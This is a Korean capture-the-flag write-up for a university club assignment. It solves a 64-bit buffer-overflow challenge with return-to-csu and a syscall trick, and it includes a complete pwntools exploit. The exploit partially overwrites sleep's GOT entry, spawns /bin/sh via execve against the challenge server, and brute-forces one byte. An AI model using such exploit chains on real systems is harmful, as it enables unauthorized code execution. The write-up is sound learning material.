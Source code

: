 # Cykor 여름방학 과제

## baby_bof

다운로드 받은 파일의 압축을 풀어보면 baby_bof라는 64비트 실행 파일과, libc파일이 존재한다. 

![](https://user-images.githubusercontent.com/64826730/91281840-812bed00-e7c3-11ea-89cf-200798631ef7.png)

baby_bof를 실행시켜보면 위와 같이 특별한 출력은 하지 않고 입력만 받은 후 프로그램을 종료한다. 

아이다로 확인한 main 함수는 다음과 같다. 

![](https://user-images.githubusercontent.com/64826730/91281847-838e4700-e7c3-11ea-9f66-256a5ae82cea.png)

buf가 rbp-0x10부터 시작하는데 read함수에서 0x50f만큼 읽어오고 있으므로 bof가 발생한다. 

![](https://user-images.githubusercontent.com/64826730/91281860-85f0a100-e7c3-11ea-9f1c-b5ced8c13ef1.png)

NX가 걸려있으므로 쉘코드 삽입은 안되고, 일반적인 ROP를 사용하면 되는 쉬운 문제로 보였으나, 프로그램 안에서 사용할 수 있는 함수가 sleep과 read밖에 없어서 libc_base를 알아낼 방법이 없어서 불가능하다.

바이너리 안에 존재하는 함수 중에 libc_csu_init이 있으므로, 이전에 사용했었던 rtc방법을 사용하였다. 
***
### RTC 

return to csu, 가젯이 충분하지 않은 상황에서 libc_csu_init이 존재하면 사용가능. 
init함수에서 스택에 있는 값을 레지스터에 저장하고, 레지스터를 통해 함수 호출. 스택 통해서 원하는 함수를 호출하도록 할 수 있다. 

![](https://user-images.githubusercontent.com/64826730/91281877-8b4deb80-e7c3-11ea-9697-ee72c7bf8c09.png)

rbx=0, rbp=1  
함수 호출 이후 rbx++와 rbp가 같으면 init함수가 계속해서 실행되도록 해 준다. 즉, 연속해서 cus_init을 호출하기 위해서 무조건 위의 값으로 설정

r12 = 호출하고자 하는 함수의 got

rdi, rsi, r15 = 순서대로 인자 1,2,3 전달

***
### SROP
RTC와 함께 SROP라는 방식도 사용해서 문제를 해결했다. 
SROP는 처음 사용해 봤는데 그동안 ROP에서 사용했던 pppr과 같은 형태의 가젯 대신에 syscall을 사용해서 함수를 호출하는 방법이다. 
32비트의 int 0x80과 비슷한 방식으로 작동하며, 프로그램이 실행중 syscall을 만나면 현재 rax를 참조하여 특정한 함수를 호출한다. 

https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

위 주소에 나와있는 테이블을 참고해서 sys함수를 호출 하면 된다. 

***

페이로드는 다음과 같이 작성했다. 

read(0,binsh_addr,8) : binsh_addr(bss+0x100)에 binsh저장, bss영역은 aslr이 걸려도 고정이다. 
-> read(0,sleep_got,1) : sleep의 실제함수 주소에서 마지막 1바이트만 수정해서 sleep함수를 syscall로 바꿔준다. aslr에서 libc_base만 바뀌고 마지막 1바이트는 offset주소로 항상 일정함을 이용
-> read(0,bss,59) : syscall에서 execve를 호출하기 위해서는 rax=59가 되어야 한다. 현재 바이너리 안에 pop rax가젯이 존재하지 않으므로, read함수는 읽은 바이트 수 만큼 rax에 리턴해주는 것을 이용해서 rax=59로 만들어주기 위한 과정
-> execve(\bin\sh\x00) : sleep함수를 syscall로 바꿔주었고, rax에도 59가 들어가있으므로 syscall을 통해 쉘을 획득 할 수 있다. 

``` python 


from pwn import *

syscall_offset = 0x44   #for bruteforce

for i in range (0,0xff):
    
    syscall_offset+=1
    print(syscall_offset)

    #level 1
    #p = process("./baby_bof")
    p = remote("srv.cykor.kr",31010)

    read_plt = 0x400430
    read_got = 0x601000
    sleep_got = 0x601010
    bss = 0x601028
    csu0 = 0x4005d0     #function call, rdx=r15, rsi=r14, rdi=r13
    csu1 = 0x4005e6     #set up registers, rbx,rbp,r12,r13,r14,r15
    binsh = "/bin/sh\x00"
    binsh_addr = bss+0x100

    #level 2
    #read(0,bss,8) -> read(0,sleep_got,1) -> execve(/bin/sh/x00)

    #read(0,binsh_addr,8)
    payload = "a"*24    #buf + sfp
    payload += p64(csu1)    #set_up regs 
    payload += p64(0)   #dummy 
    payload += p64(0)   #rbx
    payload += p64(1)   #rbp
    payload += p64(read_got)    #r12, func addr to call
    payload += p64(0)   #r13 = rdi = para1
    payload += p64(binsh_addr) #r14 = rsi = para2
    payload += p64(8)   #r15 = rdx = para3
    payload += p64(csu0)    #call func

#read(0,sleep_got,1)
    payload += p64(0)   #dummy 
    payload += p64(0)   
    payload += p64(1)   
    payload += p64(read_got)    
    payload += p64(0)
    payload += p64(sleep_got)
    payload += p64(1)
    payload += p64(csu0)

#read(0,bss+0x100,59)
    payload += p64(0)   #dummy 
    payload += p64(0)
    payload += p64(1)
    payload += p64(read_got)
    payload += p64(0)
    payload += p64(bss)
    payload += p64(59)
    payload += p64(csu0)

#execve(/bin/sh/x00)
    payload += p64(0)   #dummy 
    payload += p64(0)
    payload += p64(1)
    payload += p64(sleep_got)
    payload += p64(binsh_addr)
    payload += p64(0)
    payload += p64(0)
    payload += p64(csu0)


#level 3
    p.sendline(payload)
    sleep(3.2)
    p.send(binsh)
    
    p.send(chr(syscall_offset))
    
    p.sendline('a'*59)
    
    p.interactive()
    
    p.close()

```

sleep의 마지막 바이트를 syscall로 덮어씌우는 부분에서, 로컬에서는 다음사진처럼 0x46 으로 덮어씌우면 쉘을 획득할 수 있었는데 문제 서버에서는 해당 값으로 쉘 획득이 되지 않아서 브루트포싱으로 찾았다. 

![](https://user-images.githubusercontent.com/64826730/91281888-8e48dc00-e7c3-11ea-88d6-f8a721e46bc9.png)

![](https://user-images.githubusercontent.com/64826730/91281888-8e48dc00-e7c3-11ea-88d6-f8a721e46bc9.png)

문제서버에서는 0x45 로 덮어씌우면 쉘을 획득할 수 있었다. 포너블에서도 브루트포싱을 사용하는 방법을 좀 더 찾아볼 필요가 있어 보인다. 

![](https://user-images.githubusercontent.com/64826730/91281897-90129f80-e7c3-11ea-965e-087f774e6aaa.png)

flag : cykor{D1d_y0u_s0lv3d_17_w1th_R37urn_t0_c5u??}